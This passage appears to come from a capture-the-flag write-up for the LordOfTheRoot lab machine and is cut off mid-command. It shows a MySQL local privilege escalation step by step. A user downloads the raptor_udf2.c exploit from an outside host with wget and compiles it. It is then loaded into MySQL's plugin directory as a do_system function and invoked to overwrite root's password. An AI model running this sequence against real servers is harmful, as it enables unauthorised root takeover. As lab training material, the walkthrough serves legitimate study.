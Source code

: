 +------------------+--------------------------------------------------------+
{% endhighlight %}

## MySQL Local Privilege Escalation 

{% highlight bash %}
smeagol@LordOfTheRoot:~$ wget 0xdeadbeef.info/exploits/raptor_udf2.c
--2015-11-24 00:55:17--  http://0xdeadbeef.info/exploits/raptor_udf2.c
Resolving 0xdeadbeef.info (0xdeadbeef.info)... 213.254.16.4
Connecting to 0xdeadbeef.info (0xdeadbeef.info)|213.254.16.4|:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 3178 (3.1K) [text/x-csrc]
Saving to: ‘raptor_udf2.c’

100%[================================================================================================================================>]
3,178       --.-K/s   in 0.02s   

2015-11-24 00:55:18 (203 KB/s) - ‘raptor_udf2.c’ saved [3178/3178]

smeagol@LordOfTheRoot:~$ gcc -g -c raptor_udf2.c
smeagol@LordOfTheRoot:~$ gcc -g -shared -W1,-soname,raptor_udf2.so -o
raptor_udf2.so raptor_udf2.o -lc
gcc: error: unrecognized command line option ‘-W1,-soname,raptor_udf2.so’
smeagol@LordOfTheRoot:~$ gcc -g -shared -Wl,-soname,raptor_udf2.so -o
raptor_udf2.so raptor_udf2.o -lc
smeagol@LordOfTheRoot:~$ mysql -u root
ERROR 1045 (28000): Access denied for user 'root'@'localhost' (using password:
NO)
smeagol@LordOfTheRoot:~$ mysql -u root -p
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 2193
Server version: 5.5.44-0ubuntu0.14.04.1 (Ubuntu)

Copyright (c) 2000, 2015, Oracle and/or its affiliates. All rights reserved.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> use mysql;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> create table foo(line blob);
ERROR 1050 (42S01): Table 'foo' already exists
mysql> insert into foo values(load_file('/home/smeagol/raptor_udf2.so'));
Query OK, 1 row affected (0.01 sec)

mysql> select * from foo into dumpfile '/usr/lib/mysql/plugin/raptor_udf2.so';
ERROR 1086 (HY000): File '/usr/lib/mysql/plugin/raptor_udf2.so' already exists
mysql> create function do_system returns integer soname 'raptor_udf2.so';
Query OK, 0 rows affected (0.00 sec)

mysql> select * from mysql.func;
+-----------+-----+----------------+----------+
| name      | ret | dl             | type     |
+-----------+-----+----------------+----------+
| do_system |   2 | raptor_udf2.so | function |
+-----------+-----+----------------+----------+
1 row in set (0.00 sec)

mysql> select do_system('echo "root:passwd" | chpasswd > /tmp/out; chown